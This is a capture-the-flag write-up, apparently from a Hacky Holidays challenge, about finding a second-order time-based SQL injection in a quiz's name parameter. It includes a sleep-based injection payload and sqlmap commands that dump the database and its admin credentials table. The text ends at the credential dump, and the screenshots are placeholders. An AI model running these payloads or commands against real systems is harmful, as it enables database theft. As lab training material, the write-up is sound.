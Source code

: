 **_Episode - 0x09_ sl33p**

Mr.R3b00t now have to find a way to access The recon servers but no initial links were found, Grinch was now running a Quiz on his website "Sadistic evil creep", Mr.R3b00t took a look at it in hope of finding a lead on the recon servers.

{F1138130}

At first Glance, it looked like a normal quiz with some crazy questions and options(What do you expect from a Green Ugly Monster) and an admin login page.

On a bit deep investigation Mr.R3b00t found out the flow of the quiz

```
--> /evil-quiz/ --> /evil-quiz/start/ --> /evil-quiz/score 
```

The following requests were being made on each step.

{F1138131}
{F1138132}
{F1138133}

One more thing Mr.R3b00t noted was that the 'name' param was getting reflected at the `/evil-quiz/score` page.

It was time to fuzz the parameters, soon enough Mr.R3b00t found an unusual behaviour the payload `' or (select sleep(15))-- -` when passed via name parameter was taking much time to return the response as compared to others at this point Mr.R3b00t was a bit sure about the possible vulnerability behind the behaviour.

Mr.R3b00t quickly fired up SQLmap and ran the following command.

```
$python3 sqlmap.py -u https://hackyholidays.h1ctf.com/evil-quiz --data "name=chron0x" -p "name" --method POST --second-url "https://hackyholidays.h1ctf.com/evil-quiz/score" --cookie="session=<session_cookie>" --current-db
```

Soon Mr.R3b00t assumptions became true, and he was sure that it is indeed a Time-Based SQLi

{F1138139}

Mr.R3b00t was able to find the DB name as "quiz", now it was time to enumerate tables 

```
$python3 sqlmap.py -u https://hackyholidays.h1ctf.com/evil-quiz --data "name=chron0x" -p "name" --method POST --second-url "https://hackyholidays.h1ctf.com/evil-quiz/score" --cookie="session=<session_cookie>" -D quiz --dump
```

The above sqlmap revealed two tables "sessions and "admin", looking at the content of "sessions", the table was not of much use so MR.R3b00t had the target table to look at.

```
$python3 sqlmap.py -u https://hackyholidays.h1ctf.com/evil-quiz --data "name=chron0x" -p "name" --method POST --second-url "https://hackyholidays.h1ctf.com/evil-quiz/score" --cookie="session=<session_cookie>" -D quiz -T admin --dump
```

The table admin dumped the admin credentials
